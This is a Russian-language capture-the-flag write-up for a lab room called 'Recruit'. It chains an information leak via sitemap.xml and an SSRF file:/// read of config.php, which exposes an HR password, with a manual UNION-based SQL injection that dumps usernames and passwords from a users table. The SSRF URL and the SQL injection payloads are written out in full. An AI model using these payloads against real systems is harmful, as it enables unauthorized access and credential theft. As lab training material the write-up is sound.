# Write-up: Recruit (SSRF → SQLi)

Комната, где главное — понять SSRF и SQL-инъекцию.

## 1. Разведка

Нас просят логин и пароль. Осматриваем сайт и замечаем API:





Понимаем, что можно использовать SSRF-уязвимость, но пока не знаем, какой именно файл нам нужен.

## 2. Поиск эндпоинтов

Ищем эндпоинты: `/sitemap.xml` — здесь видно вообще все:



Особое внимание на Mail — там находим:



Уже знаем username: `hr`. И знаем, что пароль есть в `config.php`.

## 3. SSRF

Используем SSRF-уязвимость:

```text
http://10.144.158.71//file.php?cv=file:///var/www/html/config.php
```

Получаем:



```php
$HR_PASSWORD = 'hrpassword123';
```

Заходим:



## 4. Проверка на SQLi

Проверяем форму на SQL-инъекцию:



Удачно. Теперь есть два пути: вручную или через `sqlmap`. Давайте вручную.

## 5. Определение числа столбцов

```sql
' ORDER BY 1 -- -
' ORDER BY 5 -- -
```

Определяем количество столбцов — получилось 4:




## 6. UNION-инъекция

```sql
' UNION SELECT 1,2,3,4 -- -
```

Проверяем UNION-уязвимость:



## 7. Перечисление баз данных

```sql
' UNION SELECT 1,2,GROUP_CONCAT(schema_name),4 FROM information_schema.schemata -- -
```

Копаем глубже, смотрим доступные БД:



## 8. Перечисление таблиц

```sql
' UNION SELECT 1,2,GROUP_CONCAT(table_name),4 FROM information_schema.tables WHERE table_schema='recruit_db' -- -
```

Смотрим названия таблиц в конкретной БД:



## 9. Перечисление столбцов

```sql
' UNION SELECT 1,2,GROUP_CONCAT(column_name),4 FROM information_schema.columns WHERE table_name='users' -- -
```

Все столбцы в таблице `users`:



## 10. Дамп кредов

```sql
' UNION SELECT 1,2,GROUP_CONCAT(username,0x3a,password),4 FROM users -- -
```

Все логины и пароли из таблицы `users`:





Win.

## Итоговая схема (Kill Chain)

`sitemap.xml (info leak)` → `SSRF (file:/// → config.php)` → `HR creds` → `SQLi (UNION-based)` → `users dump` → win